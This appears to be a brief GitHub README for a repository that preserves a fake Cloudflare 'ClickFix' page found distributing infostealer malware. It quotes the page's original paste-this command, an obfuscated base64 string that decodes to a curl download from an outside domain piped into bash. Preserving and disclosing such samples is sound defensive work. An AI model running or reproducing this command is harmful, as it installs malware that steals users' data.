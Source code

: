 # CloudFlare-ClickFix

This repo contains a found fake malicious cloudflare page used for distributing infostealer malware. Please don't use for malicious purposes. 

Orginal contents of copy commands was:

```bash
echo "Y3VybCAtcyBodHRwczovL2dhbW1hLnBsYWluZmVuYXNzb2NpYXRlcy5jb20vc3RyaXgvaW5kZXgucGhwIHwgbm9odXAgYmFzaCAm" | base64 -d | bas[h]
```
